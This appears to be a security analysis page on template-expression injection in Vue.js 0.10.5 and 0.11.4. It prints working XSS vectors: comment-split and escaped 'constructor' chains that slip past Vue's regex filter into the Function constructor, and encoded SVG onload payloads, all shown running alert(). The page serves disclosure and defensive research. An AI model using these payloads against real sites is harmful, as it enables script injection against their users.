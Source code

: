 

# Introduction #

"Vue.js is a library for building interactive web interfaces.
It provides data-driven components with a simple and flexible API."

From http://www.vuejs.org/

# Quick Facts #

  * [Vue.js 0.10.5 (Uncompressed)](https://raw.githubusercontent.com/yyx990803/vue/v0.10.5/dist/vue.js)
  * Usage Stats http://trends.builtwith.com/javascript/VueJS


  * **{}SEC-A** <font color='red'><b>FAIL</b></font> Template expressions are equivalent to `eval`
  * **{}SEC-B** <font color='red'><b>FAIL</b></font> No sandbox or isolated execution scope, yet attempts to secure expressions via regex
  * **{}SEC-C** <font color='red'><b>FAIL</b></font> JavaScript code will be executed from within v-attributes
  * **{}SEC-D** <font color='red'><b>FAIL</b></font> No enforced separation, no obvious way to outsource templates to static files
  * **{}SEC-E** <font color='red'><b>FAIL</b></font> No dedicated security response program, one can file bugs on Github though

# Injection Attacks #

## Vue.js 0.10.5 ##

Vue.js is interesting because the commonly used `constructor.constructor`-trick does not work here. Indeed, once we try to inject this into an expression, we get an error message. It is however still possible to execute arbitrary JavaScript from inside an expression. The vector to do so looks like this:

```
<script type='text/javascript' src="http://vuejs.org/js/vue.min.js"></script>
<script type='text/javascript'>
window.onload=function(){
new Vue({
    el: '#editor',
    data: {
        input: '# hello'
    }
})
}
</script>
<div id="editor">
    <div v-html="['cons'/**/+'tructor']['cons'/**/+'tructor']['cons'/**/+'tructor']('alert(1)')()"></div>
</div>
```

Not only the `v-html` attribute can be attacked like this, also most of the other available markup sugars are welcoming this vector.

```
<script type='text/javascript' src="https://rawgit.com/yyx990803/vue/master/dist/vue.js"></script>
<script type='text/javascript'>
window.onload=function(){
new Vue({
    el: 'body',
    data: {
        clicked: false,
        selected:1,
        disp:1
    },
    methods: {
        onChange:function(){
            this.disp = this.selected;
        }
    }
})

}
</script>
<select v-model="['cons'/**/+'tructor']['cons'/**/+'tructor']['cons'/**/+'tructor']('alert(3)')()" v-on="change:['cons'/**/+'tructor']['cons'/**/+'tructor']['cons'/**/+'tructor']('alert(1)')()">
<option value="1">one</option>
<option value="2">two</option>
<option value="3">three</option>
</select>
<div v-text="['cons'/**/+'tructor']['cons'/**/+'tructor']['cons'/**/+'tructor']('alert(2)')()"></div>
```

Now, why is that so? Let's have a look at the details.

### Eval via Function ###

Not unlike a vast majority of other frameworks, Vue.js appreciates the fact that we can pour arbitrary strings into the function constructor and have some sort of eval. Still, using the common `constructor.constructor` trick is not possible here. Vue.js will even notify us on the console about a possible security violation.

The reason for that can be found here:

```
    // unicode and 'constructor' are not allowed for XSS security.
    if (UNICODE_RE.test(exp) || CTOR_RE.test(exp)) {
        utils.warn('Unsafe expression: ' + exp)
        return
    }
```

So, apparently Vue.js uses a regular expression to check, whether the term "constructor" appears inside an expression or not. If so, the expression will not be parsed and the error will be emitted instead. No XSS. excellent. Let's check that regular expression:

```
    NEWLINE_RE      = /\n/g,
    CTOR_RE         = new RegExp('constructor'.split('').join('[\'"+, ]*')),
    UNICODE_RE      = /\\u\d\d\d\d/
```

This will generate the following string (and also behold the broken regex for Unicode detection. Oh my):

```
"c['"+, ]*o['"+, ]*n['"+, ]*s['"+, ]*t['"+, ]*r['"+, ]*u['"+, ]*c['"+, ]*t['"+, ]*o['"+, ]*r"
```

We can here witness an attempt to detect the string constructor, even if concatenated. Like, for instance, the string `x['constructor']` or even `y['const'+'ructor']`. What could possibly go wrong.

Well, as the attack vector shown above proves, we can simply use comments to evade the regex and inject arbitrary JavaScript code. We can also use Unicode - unless the code point is strictly numeric:

```
<div id="editor">
    <div v-html="['c\u006Fnstructor']['c\u006Fnstructor']['c\u006Fnstructor']('alert(1)')()"></div>
</div>
```

Or just simply

```
<div id="editor">
    <div v-html="['c\x6Fnstructor']['c\x6Fnstructor']['c\x6Fnstructor']('alert(1)')()"></div>
</div>
```

Of course the whole thing is then, after successfully bypassing the protection mechanisms, poured into the usual function constructor and thereby evaluated. Extra points are given out for the comment block of course:

```
/**
 *  Create a function from a string...
 *  this looks like evil magic but since all variables are limited
 *  to the VM's data it's actually properly sandboxed
 */
function makeGetter (exp, raw) {
    var fn
    try {
        fn = new Function(exp)
    } catch (e) {
        utils.warn('Error parsing expression: ' + raw)
    }
    return fn
}
```

Vue.js needs to urgently re-think their sandbox concept. It obviously does not work by design and patching in more characters will not be overly helpful.

## Vue.js 0.11.4 ##

The current version of Vue.js made an interesting choice. The dysfunctional sandbox from the earlier tested version (0.10.5) simply got removed, there's no regular expressions or scope checks anymore.

Anything that is echoed inside a `v-html` is used as an argument for the `Function` constructor and will be evaluated in the global scope.

```
<script type='text/javascript' src="https://raw.githubusercontent.com/yyx990803/vue/0.11.4/dist/vue.js"></script>
<script type='text/javascript'>
window.onload=function(){
	new Vue({el: '#editor'})
}
</script>
<div id="editor">
    <div v-html="'\x3csvg onload=alert(1)\x3e'"></div>
</div>
```

Needless to say, we can even encode the content with HTML entities:

```
<script type='text/javascript' src="https://raw.githubusercontent.com/yyx990803/vue/0.11.4/dist/vue.js"></script>
<script type='text/javascript'>
window.onload=function(){
	new Vue({el: '#editor'})
}
</script>
<div id="editor">
    <div v-html="&apos;&bsol;x3csvg&Tab;onload=alert&lpar;1&rpar;&bsol;x3e&apos;"></div>
</div>
```

### Eval via Function ###

Again, the `Function` constructor is being used to evaluate content of expression attributes. Nothing special to see here, moving on.

```
	/**
	 * Build a getter function. Requires eval.
	 *
	 * We isolate the try/catch so it doesn't affect the
	 * optimization of the parse function when it is not called.
	 *
	 * @param {String} body
	 * @return {Function|undefined}
	 */

	function makeGetter (body) {
	  try {
	    return new Function('scope', 'return ' + body + ';')
	  } catch (e) {
	    _.warn(
	      'Invalid expression. ' +
	      'Generated function body: ' + body
	    )
	  }
	}
```